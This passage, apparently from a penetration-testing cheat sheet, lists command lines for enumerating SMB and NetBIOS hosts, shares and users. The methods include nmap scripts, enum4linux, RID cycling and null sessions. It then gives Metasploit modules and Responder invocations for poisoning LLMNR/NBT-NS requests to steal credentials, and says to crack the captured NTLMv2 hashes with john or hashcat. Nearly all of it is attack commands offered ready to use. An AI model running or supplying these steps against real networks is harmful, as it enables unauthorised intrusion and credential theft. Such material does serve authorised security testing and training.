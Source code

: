                 ```
                nbtscan 192.168.1.0/24  Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain
                enum4linux -a target-ip  Do Everything, runs all options (find windows client domain / workgroup) apart from dictionary based share name guessing
                ```
            *   Fingerprint SMB Version
                ```
                smbclient -L //192.168.1.100
                ```
            *   Find open SMB Shares
                ```
                nmap -v -sS -p 445 --script=smb-enum-shares --script-args smbuser=user,smbpass=pass target
                nmap -v -sS -p 445 --script=smb-enum-shares --script-args smbuser=user,smbhash=hash target
                nmap -v -sS -p 445 --script=smb-enum-shares target
                ```
            *   Enumerate SMB Users
                ```
                nmap -sU -sS --script=smb-enum-users -p U:137,T:139 192.168.11.200
                python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.168.XXX.XXX
                ```
            *   RID Cycling:
                ```
                ridenum.py 192.168.XXX.XXX 500 50000 dict.txt
                ```
                Metasploit module for RID cycling:
                ```
                use auxiliary/scanner/smb/smb_lookupsid
                ```
            *   Manual Null session testing:
                Windows:
                ```
                net use \\TARGET\IPC$ "" "/u:""
                ```
                Linux:
                ```
                smbclient -L //192.168.99.131
                ```
            *   NBTScan unixwiz
                Install on Kali rolling:
                ```
                apt-get install nbtscan-unixwiz
                nbtscan-unixwiz -f 192.168.0.1-254 > nbtscan
                ```
        *   LLMNR / NBT-NS Spoofing
            Steal credentials off the network.
            *   Metasploit LLMNR / NetBIOS requests
                Spoof / poison LLMNR / NetBIOS requests:
                ```
                auxiliary/spoof/llmnr/llmnr_response
                auxiliary/spoof/nbns/nbns_response
                ```
                Capture the hashes:
                ```
                auxiliary/server/capture/smb
                auxiliary/server/capture/http_ntlm
                ```
                You'll end up with NTLMv2 hash, use john or hashcat to crack it.
            *   Responder.py
                Alternatively you can use responder.
                ```
                git clone https://github.com/SpiderLabs/Responder.git
                python Responder.py -i local-ip -I eth0
                ```